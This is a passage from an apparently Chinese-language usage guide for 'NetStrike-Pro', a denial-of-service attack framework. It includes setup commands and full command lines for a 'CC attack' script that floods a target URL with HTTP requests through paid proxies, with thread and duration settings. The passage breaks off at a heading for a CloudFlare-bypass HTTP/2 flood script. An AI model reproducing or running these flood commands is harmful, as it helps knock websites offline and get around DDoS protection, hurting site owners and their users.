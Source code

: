 
### 场景 2: 体验新框架 UI

**查看专业化界面设计**

```bash
cd NetStrike-Pro

# 安装 UI 依赖
pip3 install rich pyfiglet colorama PyYAML

# 测试框架
python3 attack.py --version
python3 attack.py --help

# 查看介绍页（英文）
python3 -c "from ui.intro import show_intro; show_intro('en')"

# 查看介绍页（中文）
python3 -c "from ui.intro import show_intro; show_intro('zh')"
```

### 场景 3: 开发和扩展

**继续完善新框架**

参考文档：
- `🎉 项目框架完成报告.md` - 技术细节
- `🎊 项目实施完成总结.md` - 完整总结
- `✅ 交付清单.md` - 交付内容

---

## 🔧 原有工具完整使用指南

### 1. Python CC 攻击 (`legacy/cc.py`)

```bash
cd NetStrike-Pro/legacy

# 基础用法
python3 cc.py -url https://目标.com -f proxy_paid.txt -v http -s 60

# 完整参数
python3 cc.py \
  -url https://目标.com \      # 目标 URL
  -f proxy_paid.txt \          # 代理文件
  -v http \                    # 代理类型: http/4/5
  -s 60 \                      # 持续时间（秒）
  -t 500                       # 线程数
```

### 2. HTTP/2 CloudFlare 绕过 (`legacy/新建文件夹/tls.js`)
